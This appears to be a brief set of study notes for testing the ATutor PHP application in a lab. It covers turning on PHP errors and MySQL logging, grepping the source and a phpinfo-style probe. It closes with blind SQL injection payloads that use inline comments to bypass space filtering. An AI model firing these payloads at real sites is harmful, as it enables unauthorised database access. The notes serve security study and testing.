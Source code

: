 ### Turn on Errors in PHP

> sudo nano /etc/php5/apache2/php.ini 
> Search (ctrl+w) for "display_errors = " and change Off to On
> sudo systemctl restart apache2

### Turn on logging in MySQL

> sudo nano /etc/mysql/my.cnf 
> Search (ctrl+w) for "general_log_file", enable this and general_log
> sudo systemctl restart mysql

Monitor MySQL Queries:
> tail -f /var/log/mysql/mysql.log

### Grep search: 
> grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" --color

### Information Gathering

> echo "<?php var_dump(get_magic_quotes_gpc()); ?>" > info.php
> echo "<?php echo 'PHP Version: ' . phpversion().\"\r\n\"; ?>" >> info.php

### SQL inline comments to replace spaces

> mysql> select/**/1;

### SQL Blind Injection Payloads

%23 is # sign, interpreted by MySQL as a comment, terminating the rest of the query

True:
> AAAA')/**/or/**/(select/**/1)=1%23

False:
> AAAA')/**/or/**/(select/**/1)=0%23
